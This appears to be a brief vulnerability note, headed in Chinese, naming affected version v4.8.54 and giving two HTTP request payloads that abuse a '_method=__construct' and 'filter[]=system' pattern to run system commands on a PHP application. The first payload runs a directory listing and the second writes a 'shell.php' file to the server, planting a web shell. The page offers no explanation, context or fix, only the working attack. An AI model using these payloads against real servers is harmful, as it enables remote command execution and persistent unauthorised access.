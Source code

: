 <languages />

漏洞影响
--------

v4.8.54

Payload
-------

    s=dir&_method=__construct&method=*&filter[]=system

    s=echo "shell" >shell.php&filter[]=system&method=*&_method=__construct